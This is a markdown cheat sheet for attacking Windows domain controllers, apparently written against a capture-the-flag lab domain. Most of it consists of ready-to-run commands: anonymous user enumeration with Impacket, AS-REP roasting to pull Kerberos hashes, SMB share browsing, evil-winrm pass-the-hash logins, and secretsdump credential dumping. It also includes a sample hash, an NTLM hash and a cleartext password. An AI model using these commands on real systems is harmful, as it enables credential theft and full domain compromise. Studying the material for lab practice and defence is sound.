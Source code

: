 # Domain Controllers
## Basics 
- Find the NETBIOS Domain Name
````
nbtscan -v 10.10.8.1-254
````
## Impacket
- Location:
````
/usr/share/doc/python3-impacket/examples/
````
- If we have IPC$ access without authentication we are able to list the domain users as anonymous
````
python3 lookupsid.py anonymous@10.10.10.10 | tee users.txt
````
- Isolate the users with `SidTypeUser`
````
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
````
- Now, let’s use `GetNPUsers.py` to find users without Kerberos pre-authentication:
````
python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -userfile usernames.txt
````
- Should retrive a hash if the command is sucessful
````
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:692e76f70a8772c46ed94e73130460c8$713b0693498fdaff68642d78e713ca965e5007d5d864ca727289930783fe28f00bf79fef8126c4722d09cafc72ec60e940d31297591f67ce049030cb531ddd9c83cd37796fbf414b830a7c90fe26d2c45d6f2b624cd4413c58e3dbb77519dd69906248f8db27b1974b880a826003e562e25d9de9e4cb7cfa85c1de954761053b7d51a455530001348b46909f91f4e80bae7374071339f0920bb3e2ad95169d20f05d0cd586882facb63c058072dacb7ec8ddbcd9297331e1f6fb6d844ea7967659bee38fde4431af9f9608e9adcb38cb6e20e72bcf61c524f480b5ea2530e16dbeed2272855a61a05c03e84653aa1a3bbbd5ece06633
````
- Crack the hash with `john`
### Samba authenticated access
````
smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON
````
- Cat out files with `smb`
````
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

        8540159 blocks of size 4096. 4318542 blocks available
smb: \> get ResetPassword.vbs -
````
### evil-winrm
- Connect with pass the hash attack
````
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
````
### Dump hashes
- Use `secretsdump.py` with impacket
````
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
````









































